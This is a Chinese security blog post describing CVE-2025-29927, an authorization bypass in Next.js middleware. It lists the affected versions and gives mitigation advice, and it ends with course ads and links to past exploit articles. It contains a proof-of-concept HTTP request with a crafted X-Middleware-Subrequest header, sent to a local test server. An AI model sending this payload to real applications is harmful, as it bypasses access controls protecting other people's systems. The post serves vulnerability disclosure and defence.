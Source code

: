 #  漏洞速递 | CVE-2025-29927漏洞（附EXP）   
 渗透Xiao白帽   2025-05-20 15:53  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Next.js是Vercel开源的一个 React 框架，Next.js 是一款基于 React 的热门 Web 应用程序框架，提供服务器端渲染、静态站点生成和集成路由系统等功能。Next.js 14.2.25之前版本和15.2.3之前版本存在安全漏洞，该漏洞源于如果授权检查发生在中间件中，可能绕过授权检查。0x02影响版本  
  
11.1.4 <=next.js<=13.5.6  
  
14.0 <= next.js <14.2.25  
  
15.0 <= next.js <15.2.3  
  
注：利用前提，需要next.js应用使用middleware。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAv1g2LKMH2jbnGD1psbt0r6icjfU5EibSib9RTGdxsWxyNpCkl23JQtsMRDmcz3LG91fvONQ7YPpncQ/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAv1g2LKMH2jbnGD1psbt0r9RDzKJRibxkjiaJ6X9n3ZnyQuxUTibzTHO6eeEPSR0ExJjCOtTTia4lICA/640?wx_fmt=png&from=appmsg "")  
通过浏览器插件获取版本信息2.对漏洞进行复现请求get请求确认中间件 POC 漏洞复现GET / HTTP/1.1Host: 127.0.0.1:3000X-Nextjs-Data: 1X-Middleware-Subrequest: src/middleware:nowaf:src/middleware:src/middleware:src/middleware:src/middleware:middleware:middleware:nowaf:middleware:middleware:middleware:pages/_middleware      执行payload，通过响应判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：临时解决：拦截访问Nextjs应用中HTTP请求头包含的x-middleware-subrequest字段。建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来网 安 考 证需要考各类安全证书的可以扫码找我咨询，价格优惠、活动划算！报名CISSP、CCSP、PTE、PTS、IRE、IRS、DSG、CCSK、CDSP、CZTP、ITIL4等符合活动标准的认证课程，可获得波司登羽绒服一件（可选）往期推荐 · 有彩蛋【内网渗透】内网信息收集命令汇总【内网渗透】域内信息收集命令汇总【超详细 | Python】CS免杀-Shellcode Loader原理(python)【超详细 | Python】CS免杀-分离+混淆免杀思路【超详细 | 钟馗之眼】ZoomEye-python命令行的使用【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现【奇淫巧技】如何成为一个合格的“FOFA”工程师【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】【超详细】Fastjson1.2.24反序列化漏洞复现  记一次HW实战笔记 | 艰难的提权爬坑走过路过的大佬们留个关注再走呗往期文章有彩蛋哦  
  
